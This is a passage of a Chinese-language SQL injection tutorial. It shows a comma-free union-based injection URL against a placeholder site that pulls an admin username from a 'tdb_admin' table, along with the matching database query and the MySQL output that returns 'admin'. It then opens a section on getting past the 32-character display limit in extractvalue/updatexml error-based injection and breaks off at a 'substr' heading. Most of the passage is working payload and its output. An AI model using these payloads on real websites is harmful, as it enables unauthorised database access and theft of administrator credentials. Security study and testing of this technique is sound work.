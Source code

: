 

web语句: http://www.test.com/sql.php?id= -1 union select * from (

 (select (select username from test.tdb_admin limit 1 offset 0))A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)



数据库语句: select  *from test where id=-1 union select*  from (

 (select (select username from test.tdb_admin limit 1 offset 0))A join

 (select 2)B join

 (select 3)C join

 (select 4)D

)



```plain
mysql> select * from test where id=-1 union select * from (
	(select (select username from test.tdb_admin limit 1 offset 0))A join 
	(select 2)B join 
	(select 3)C join 
	(select 4)D
)

+-------+------+------+---------+
| id    | test | map  | content |
+-------+------+------+---------+
| admin | 2    | 3    | 4       |
+-------+------+------+---------+
1 row in set (0.00 sec)
```

# 二、extractvalue与updatexml爆错注入突破长度限制的两种方法

# 0x00 概要



在使用 extractvalue或是updatexml报错注入 方法时可能会出现一种情况要获取的数据大于了 32 位导致显示不完整。



这里展示两种常用突破方法



# 0x01 substr函数
